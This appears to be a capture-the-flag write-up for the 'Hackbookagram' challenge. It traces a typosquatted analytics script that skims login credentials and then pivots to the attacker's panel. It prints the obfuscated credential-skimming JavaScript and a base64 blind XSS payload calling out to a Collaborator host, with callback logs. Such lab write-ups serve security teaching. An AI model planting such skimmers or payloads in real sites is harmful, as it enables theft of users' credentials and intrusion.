

# Hackbookagram

http://www.hackbookagram.com/ - 7 flags to find


Little intro to this challenge

```
This challenge was originally built for NahamCon

Usernames and passwords are somehow being stolen from hackbookagram

Find out how they are being stolen, locate the hackers servers and trash their cache of usernames and passwords
```

Let's start with subs first

```
└─$ assetfinder -subs-only hackbookagram.com
hackbookagram.com
hackbookagram.com
www.hackbookagram.com
```

Also using the subdomain wordlist brought back nothing. Main application it is then! OK content discovery

Hmmm ok lot's of 302's and a few 404 responses on .php extensions. I decided to take a closer look at the scripts included in the index and I spot this.

```html
<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmaneger.com/gtag/js?id=UA-978312237-6"></script>
<script>
    window.dataLayer = window.dataLayer || [];
    function gtag(){dataLayer.push(arguments);}
    gtag('js', new Date());

    gtag('config', 'UA-978312237-6');
</script>
```

The typo on `maneger` sticks out like a sore thumb for me, visit the root domain and.....



Aha! :D Let's take a closer look at the script that gets pulled back by the src location above

```javascript
// Copyright 2012 Google Inc. All rights reserved.
(function() {
    var data = {
        "resource": {
            "version": "1",
            "macros": [{
                "function": "__e"
            }, {
                "function": "__cid"
            }],
            "tags": [{
                "function": "__rep",
                "once_per_event": true,
                "vtp_containerId": ["macro", 1],
                "tag_id": 1
            }],
            "predicates": [{
                "function": "_eq",
                "arg0": ["macro", 0],
                "arg1": "gtm.js"
            }],
            "rules": [
                [
                    ["if", 0],
                    ["add", 0]
                ]
            ]
        },
        "runtime": []
    };
    /*

    Copyright The Closure Library Authors.
    SPDX-License-Identifier: Apache-2.0
    */
    var bb = 'lo';
    var cd = 'Btn';
    var ccr = 'gin';
    document.getElementById(bb + ccr + cd).addEventListener("click", function() {
        var a_1 = 'htt';
        var a_2 = 'p://';
        var a_3 = 'hac';
        var a_4 = 'kboo';
        var a_5 = 'kag';
        var a_6 = 'ram';
        var a_7 = '.c';
        var a_8 = 'om/';
        var a_9 = 'log';
        var a_10 = 'in';
        var e = new XMLHttpRequest;
        e.open("POST", a_1 + a_2 + a_3 + a_4 + a_5 + a_6 + a_7 + a_8 + a_9 + a_10, !0), e.setRequestHeader("Content-type", "application/x-www-form-urlencoded"), e.onload = function() {
            var t = JSON.parse(e.responseText);
            if (console.log(), 201 == e.status) {
                var n = btoa("username=" + document.getElementById("username").value + "&password=" + document.getElementById("password").value);
                document.body.innerHTML = document.body.innerHTML + '', window.location = t[0]
            } else alert(t[0])
        }, e.send("username=" + document.getElementById("username").value + "&password=" + document.getElementById("password").value), event.stopImmediatePropagation()
    });
})();
```

OK well the click event listener is partially obsfuscated but a quick refactor and I suspect I can get that to make more sense...

```javascript
(function() {
    document.getElementById('loginBtn').addEventListener("click", function() {
        var e = new XMLHttpRequest;
        e.open("POST", 'http://hackbookagram.com/login', !0), e.setRequestHeader("Content-type", "application/x-www-form-urlencoded"), e.onload = function() {
            var t = JSON.parse(e.responseText);
            if (console.log(), 201 == e.status) {
                var n = btoa("username=" + document.getElementById("username").value + "&password=" + document.getElementById("password").value);
                document.body.innerHTML = document.body.innerHTML + '', window.location = t[0]
            } else alert(t[0])
        }, e.send("username=" + document.getElementById("username").value + "&password=" + document.getElementById("password").value), event.stopImmediatePropagation()
    });
})();
```

The page also includes its own website.js with a separate click event listener registered via jQuery

```javascript
$(document).ready( function(){
    $("#loginBtn").click( function(){
        $.post('/login',
            {
                'username'  :   $('input[name="username"]').val(),
                'password'  :   $('input[name="password"]').val()
            },function(resp){
                window.location = resp;
            }).fail(function(resp){
                alert( resp.responseJSON[0] );
        });
    });
})
```

So two click events on one button, the POST from the manegar site to hackbookagram may be failing however due to CORS

```
Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at http://hackbookagram.com/login. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing).
```

OK so let's say the POST was working for the moment and we received a 201 response back, i.e. we get to this if block

```javascript
if (console.log(), 201 == e.status) {
    var n = btoa("username=" + document.getElementById("username").value + "&password=" + document.getElementById("password").value);
    document.body.innerHTML = document.body.innerHTML + '', window.location = t[0]
}
```

Let's assume username was 'test' and password was '12345' eg.

```javascript
var n = btoa("username=test&password=12345");
```

The value of n would be `dXNlcm5hbWU9dGVzdCZwYXNzd29yZD0xMjM0NQ==`

And it would attempt to add an invisible image to the page with the HTML

```html

```

So as `googletagmanegar' isn't the real Google this must be how the hackers are stealing the creds. This doesn't however give me any flags :D

So now it's time to

```locate the hackers servers and trash their cache of usernames and passwords```

After I set the cookie in the request to googletagmanegar.com and request it in the browser I get directed to a login


Let's perform the same steps against the googletagmaneger.com domain

```
└─$ assetfinder -subs-only googletagmaneger.com                                                                     
googletagmaneger.com
www.googletagmaneger.com
googletagmaneger.com
googletagmaneger.com
googletagmaneger.com
www.googletagmaneger.com
```

Subdomain word list also brought back nothing. Content discovery...

- /event - HTTP 200 blank page
- /login - HTTP 200 login page
- /css/ - HTTP 403
- /js/- HTTP 403
- /logout/ - HTTP 302 redirect to login with cookie "user-login-cookie=deleted"

Now the event page looks blank, but perhaps it does something with that base64 value behind the scenes

```event?e=dXNlcm5hbWU9dGVzdCZwYXNzd29yZD0xMjM0NQ==```

The value of which was

```username=test&password=12345```

So we're blind here! Blind XSS maybe? Well yes kind of, I fired up Collab client copied my domain and base64 encoded something like

```
username=&password=
```

i.e. a request to 

```event?e=dXNlcm5hbWU9PGltZyBzcmM9Imh0dHA6Ly94eHgub2FzdGlmeS5jb20veCI%2bJnBhc3N3b3JkPTxpbWcgc3JjPSJodHRwOi8veHh4Lm9hc3RpZnkuY29tL3giPg%3d%3d```

The following appeared

```
The Collaborator server received a DNS lookup of type A for the domain name xxx.oastify.com.  The lookup was received from IP address 138.68.180.134 at 2022-Jun-13 19:30:36 UTC.
```

```
The Collaborator server received a DNS lookup of type A for the domain name xxx.oastify.com.  The lookup was received from IP address 138.68.180.132 at 2022-Jun-13 19:30:36 UTC.
```

```
The Collaborator server received an HTTPS request.  The request was received from IP address 178.62.61.49 at 2022-Jun-13 19:30:37 UTC.
```

So the first two are just IP's from digitalocean, but if I visit the last one in the browser


Flag no.3 :)